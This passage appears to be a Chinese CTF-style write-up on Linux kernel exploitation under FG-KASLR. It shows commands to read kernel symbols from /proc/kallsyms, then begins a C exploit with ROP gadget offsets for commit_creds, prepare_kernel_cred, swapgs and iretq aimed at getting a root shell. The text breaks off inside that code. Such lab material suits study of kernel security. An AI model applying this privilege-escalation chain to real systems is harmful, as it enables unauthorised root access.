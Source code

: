 可以在 init 脚本中将 uid 改成 0 切成内核态，之后查看 kallsyms 

```shell
cat /proc/kallsyms | grep "startup_64"
```

![image-20220928161441492](img/image-20220928161441492.png)

在开启 FG-KASLR 后在使用这个命令，观察后几位，每次重启内核都会发生变化。。

```shell
cat /proc/kallsyms | grep "commit_creds"
```

## exp1

除 Kaslr 外保护全开的 exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();


size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0x4c6410;
size_t prepare_kernel_cred = 0x4c67f0;
size_t pop_rdi_ret = 0x6370;
size_t pop_rdx_ret = 0x7616;
size_t pop_rcx_ret = 0x5f4bbc;
size_t pop_rbp_ret = 0x424;
size_t mov_rdi_rax_jne_pop2_ret = 0x66fea3;
size_t cmp_rdx_jne_pop2_ret = 0x964cc4;
size_t swapgs_pop_rbp_ret = 0xa55f;
size_t iretq_ret = 0xc0d9;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
```